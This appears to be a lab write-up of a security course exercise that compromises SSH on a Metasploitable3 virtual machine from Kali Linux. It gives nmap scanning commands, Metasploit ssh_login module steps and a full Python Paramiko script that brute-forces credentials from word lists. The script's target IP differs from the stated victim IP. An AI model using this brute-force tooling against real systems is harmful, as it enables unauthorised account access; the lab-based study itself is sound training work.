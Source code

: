# Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.101
  ![لقطة شاشة 2025-04-29 225928](https://github.com/user-attachments/assets/3f0d03ed-c30f-46d7-a50d-3b23d42c9405)

-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.56.101 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.
![لقطة شاشة 2025-04-29 230118](https://github.com/user-attachments/assets/20f0d103-8a20-4df2-9e9c-70f95b7f92df)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.56.102
  ![لقطة شاشة 2025-04-29 230105](https://github.com/user-attachments/assets/aba89bfb-3d89-4f8a-a34e-79832e7815d6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

1. Launch Metasploit:
   ```
   msfconsole
   ```
2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.

## Task 1.2 – Compromise Using Custom Script

## 🔐 Custom SSH Brute-Force Script (Python + Paramiko)

This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

 
---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



